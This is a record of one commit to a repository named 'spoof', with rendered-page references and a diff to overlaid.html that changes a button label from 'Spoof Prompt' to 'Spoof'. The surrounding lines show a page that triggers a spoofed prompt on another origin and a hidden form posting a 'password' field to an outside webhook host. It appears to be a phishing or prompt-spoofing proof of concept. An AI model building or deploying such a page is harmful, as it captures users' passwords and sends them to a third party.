

Before and after one commit to vxyoka/spoof, a plain HTML site: page overlaid.html in a window 1280 px wide. Shown: the whole page, without its empty margins (313-965 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update overlaid.html

```diff
--- a/overlaid.html
+++ b/overlaid.html
@@ -38,7 +38,7 @@
 </head>
 <body>
     <h2>Click this to trigger iframe prompt on another origin</h2>
-    <button id="triggerBtn">Spoof Prompt</button>
+    <button id="triggerBtn">Spoof</button>
     <div id="status"></div>
     <form id="hiddenForm" class="hidden" method="POST" action="https://keen-sun-82.webhook.cool/">
         <input type="text" id="passwordInput" name="password">
```
